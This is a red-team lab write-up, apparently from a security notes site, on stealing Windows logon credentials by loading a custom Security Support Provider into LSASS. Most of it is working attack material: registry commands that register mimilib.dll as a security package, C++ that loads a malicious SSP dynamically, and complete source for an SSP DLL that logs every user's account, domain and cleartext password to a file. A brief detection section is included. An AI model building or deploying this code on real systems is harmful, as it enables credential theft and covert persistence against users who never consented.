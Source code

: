 ```yaml
---
description: Credential Access, Persistence
---
```


# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider (SSP) and Authentication Packages (AP) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package.

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:

{% code title="attacker@target" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilib.dll to the Security Support Provider list (Security Packages):

{% code title="attacker@target" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endcode %}

The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon (after the system had been rebooted after the Security Package was registered):

![](../../.gitbook/assets/lsa-security-packages.png)

{% hint style="info" %}
Reboot is required for the new SSP to take effect after it's been added to the Security Packages list.
{% endhint %}

## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:

![](<../../.gitbook/assets/image (423).png>)

Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
	return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:

![procmon filter: path contains "spotless"](../../.gitbook/assets/load-ssp.gif)

{% hint style="info" %}
Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.
{% endhint %}

## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes.

Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

Additionally, mimilib.dll (same applies to custom spotless.dll) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:

![](<../../.gitbook/assets/Screenshot from 2018-07-24 23-08-39.png>)

## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```

## References

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-mode-initialization" %}

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
